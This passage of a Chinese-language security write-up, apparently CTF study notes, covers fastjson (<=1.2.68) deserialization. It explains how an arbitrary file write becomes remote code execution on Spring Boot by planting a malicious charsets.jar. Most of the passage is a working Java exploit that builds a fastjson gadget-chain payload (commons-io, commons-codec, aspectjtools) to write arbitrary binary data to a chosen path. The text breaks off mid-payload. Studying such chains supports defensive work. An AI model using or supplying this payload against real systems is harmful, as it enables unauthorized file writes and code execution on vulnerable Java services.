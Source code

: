 ```json
```
可以发现在JDK8版本下成功写入文件，如果能写jsp，那么就可以直接getshell了，但是如果不存在写jsp的条件呢，比如说springboot，那么就需要写jar文件了：[Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索 ](https://landgrey.me/blog/22/)

总结一下就是 jvm 为了避免一下加载太多暂时用不到或者以后都用不到的类，不会在一开始运行时把所有的 JDK HOME 目录下自带的 jar 文件全部加载到类中，存在 懒加载 行为，并且发现程序代码中如果没有使用`Charset.forName("GBK")`类似的代码，默认就不会加载到`/jre/lib/charsets.jar`文件，那么我们控制类初始化，就可以加载恶意的charsets.jar实现rce了

存在一条写二进制的链
![](https://img-blog.csdnimg.cn/d4a25889d5e6431883ac046297f3fbd3.png)

需要满足：`fastjson<=1.2.68 and commons-io-2.2 aspectjtools-1.9.6 commons-codec-1.6`
最后Skay师傅的exp为：
```java
import java.io.DataInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.util.ArrayList;
import java.util.Arrays;
import java.util.Base64;
import com.alibaba.fastjson.JSON;

public class payload_AspectJ_writefile {
    public static void main(String[] args){
        byte[] bom_buffer_bytes = readFileInBytesToString("C:/Users/bmth/Desktop/作业/CTF学习/java学习/fastjson/src/main/java/exp/Blackhat2021/1.txt");
        //写文本时要填充数据
        String so_content = new String(bom_buffer_bytes);
        for (int i=0;i<8192;i++){
            so_content = so_content+"a";
        }
        String base64_so_content = Base64.getEncoder().encodeToString(so_content.getBytes());
//        String base64_so_content = Base64.getEncoder().encodeToString(bom_buffer_bytes);
        byte[] big_bom_buffer_bytes = Base64.getDecoder().decode(base64_so_content);
//        byte[] big_bom_buffer_bytes = base64_so_content.getBytes();
        String payload = String.format("{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\":\"org.apache.commons.io.input.BOMInputStream\",\n" +
                "  \"delegate\":{\n" +
                "    \"@type\":\"org.apache.commons.io.input.TeeInputStream\",\n" +
                "    \"input\":{\n" +
                "      \"@type\": \"org.apache.commons.codec.binary.Base64InputStream\",\n" +
                "      \"in\":{\n" +
                "        \"@type\":\"org.apache.commons.io.input.CharSequenceInputStream\",\n" +
                "        \"charset\":\"utf-8\",\n" +
                "        \"bufferSize\": 1024,\n" +
                "        \"s\":{\"@type\":\"java.lang.String\"\"%1$s\"\n" +
                "      },\n" +
                "      \"doEncode\":false,\n" +
                "      \"lineLength\":1024,\n" +
                "      \"lineSeparator\":\"5ZWKCg==\",\n" +
                "      \"decodingPolicy\":0\n" +
                "    },\n" +
                "    \"branch\":{\n" +
                "      \"@type\":\"org.eclipse.core.internal.localstore.SafeFileOutputStream\",\n" +
                "      \"targetPath\":\"%2$s\"\n" +
                "    },\n" +
                "    \"closeBranch\":true\n" +
                "  },\n" +
                "  \"include\":true,\n" +
                "  \"boms\":[{\n" +
                "                  \"@type\": \"org.apache.commons.io.ByteOrderMark\",\n" +
```